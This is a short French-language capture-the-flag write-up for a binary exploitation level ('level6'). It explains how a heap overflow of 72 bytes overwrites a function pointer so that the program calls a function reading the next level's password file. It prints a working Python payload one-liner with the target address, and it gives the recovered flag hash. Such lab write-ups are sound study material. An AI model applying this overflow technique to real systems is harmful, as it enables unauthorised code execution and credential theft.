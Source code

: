 Dans ce niveau on voit que dans le main il y a un appel a un pointeur sur fonction `0x080484d0 <+84>:	call   *%eax`

Si on regarde les fonctions existantes nous avec `m()` et `n()`

La fonction `m()` renvoi `Nope` pendant que `n()` cherche a exec `"/bin/cat /home/user/level7/.pass"`

On va donc chercher a appeler `n()` en changeant le pointeur sur fonction

Si on execute le prog avec un arg et qu'on break avant l'appel on a `print $eax = 134513768 = 0x8048468 = adresse de m()`

Et si on le fait segfault avec 72 'A' on voit que l'adresse qui est appele est `0x41414141`

L'objectif est donc `set $eax = 134513748 = 0x08048454 = adresse de n()`

On va lui passer en arg `72 'A'` + l'adresse de `n()` :
    `(python -c 'print"A"*72 + "\x54\x84\x04\x08"') | xargs ./level6`

La fonction `n()` est appele et le flag sort : `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`